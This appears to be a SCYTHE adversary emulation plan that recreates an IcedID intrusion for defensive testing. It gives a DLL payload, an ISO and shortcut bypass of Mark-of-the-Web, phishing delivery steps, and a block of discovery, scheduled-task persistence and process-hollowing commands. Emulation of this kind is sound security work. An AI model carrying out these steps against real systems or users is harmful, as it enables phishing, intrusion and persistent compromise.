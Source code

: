 # IcedID - Adversary Emulation Plan

This threat is based on The DFIR Report post on April 25, 2022: https://thedfirreport.com/2022/04/25/quantum-ransomware/

This is a multi-stage threat that requires multiple SCYTHE campaigns for end-to-end execution. The initial access procedures leverage multiple defense evasion steps that would be wise to test in your enviornment.

## Automated Adversary Emulation with SCYTHE
### IcedID
1. Download and import the threats in JSON format to your SCYTHE instance
2. Create a new campaign `IcedID` with HTTPS and the communication options from the CTI: `--cp yourdomain[.]com:443 --secure true --multipart 10240 --heartbeat 60 --jitter 15`
3. Import from Existing Threat: IcedID
4. Launch the Campaign
5. Download payload in DLL format setting the entry-point to `DllRegisterServer`
6. Save the DLL as `dar.dll`
7. Follow steps for `Stage 2` before execution
8. Copy the src folder from our [Compound Actions GitHub for T1553.005](https://github.com/scythe-io/compound-actions/tree/main/T1553.005%20-%20Mark-of-the-Web%20Bypass/src) to a working directory on your Windows system
9. Put the DLL in the Folder2Iso of the working directory
10. In the Folder2Iso directory, create a shortcut called `Document` and set the `Target` to: `C:\Windows\System32\rundll32.exe dar.dll,DllRegisterServer`
11. Open a Windows command prompt and cd to the working directory
12. Run `Folder2Iso.exe "Folder2Iso" "%USERPROFILE%\Downloads\docs_invoice_173.iso" "IcedID" 0 0 0 "None"` This will take all the content of the Folder2Iso folder and create an ISO of it
13. Upload the zip file to a web server and copy the link
14. Send a phishing email with the link or with the .iso as an attachment
15. If the end user downloads and double clicks the ISO, it will be mounted on their endpoint. The user will need to double click the shortcut to begin execution.

### Stage 2
1. Create a new campaign `Stage2` with HTTPS and the communication options from the CTI: `--cp yourdomain[.]com:443 --secure true --multipart 10240 --heartbeat 60 --jitter 15`
2. Add any automation or import from another threat
3. Launch the Campaign
4. Download payload in EXE format and save it as `Stage2.exe`
5. Upload the `Stage2.exe` to the VFS under VFS:/shared/threats/IcedID/

## Manual Emulation
### Stage 1
1. Create a new campaign `IcedID` with HTTPS and the communication options from the CTI: `--cp yourdomain[.]com:443 --secure true --multipart 10240 --heartbeat 60 --jitter 15`
2. Download payload in DLL format setting the entry-point to `DllRegisterServer`
3. Save the DLL as `dar.dll`
4. Follow steps for `Stage 2` before execution
5. Copy the src folder from our [Compound Actions GitHub for T1553.005](https://github.com/scythe-io/compound-actions/tree/main/T1553.005%20-%20Mark-of-the-Web%20Bypass/src) to a working directory on your Windows system
6. Put the DLL in the Folder2Iso of the working directory
7. In the Folder2Iso directory, create a shortcut called `Document` and set the `Target` to: `C:\Windows\System32\rundll32.exe dar.dll,DllRegisterServer`
8. Open a Windows command prompt and cd to the working directory
9. Run `Folder2Iso.exe "Folder2Iso" "%USERPROFILE%\Downloads\docs_invoice_173.iso" "IcedID" 0 0 0 "None"` This will take all the content of the Folder2Iso folder and create an ISO of it
10. Upload the zip file to a web server and copy the link
11. Send a phishing email with the link or with the .iso as an attachment
12. If the end user downloads and double clicks the ISO, it will be mounted on their endpoint. The user will need to double click the shortcut to begin execution.

### Stage 2
1. Create a new campaign `Stage2` with HTTPS and the communication options from the CTI: `--cp yourdomain[.]com:443 --secure true --multipart 10240 --heartbeat 60 --jitter 15`
2. Add any automation or import from another threat
3. Launch the Campaign
4. Download payload in EXE format and save it as `Stage2.exe`
5. Upload the `Stage2.exe` to the VFS under VFS:/shared/threats/IcedID/

### Manual Execution from Stage 1 Shell
```
loader --load run
run cmd.exe /c chcp >&2
run WMIC /Node:localhost /Namespace:\\root\SecurityCenter2 Path AntiVirusProduct Get * /Format:List
run ipconfig /all
run systeminfo
run net config workstation
run nltest /domain_trusts
run nltest /domain_trusts /all_trusts
run net group "Domain Admins" /domain
run SCHTASKS /Create /SC hourly /TN kajeavmeva_{B8C1A6A8-541E-8280-8C9A-74DF5295B61A} /TR "rundll32.exe %USERPROFILE%\AppData\Local\user\{3231114A-23EA-C1E1-F549-3FA294BC3E48}\Ulfefi32.dll,DllMain --alyeqe=SketchRare\license.dat"
run cmd /c SCHTASKS /Delete /TN kajeavmeva_{B8C1A6A8-541E-8280-8C9A-74DF5295B61A} /F >nul 2>&1
loader --load phollowing
phollowing --src VFS:/shared/threats/IcedID/Stage2.exe --target "C:\Windows\SysWOW64\cmd.exe"
controller --shutdown
```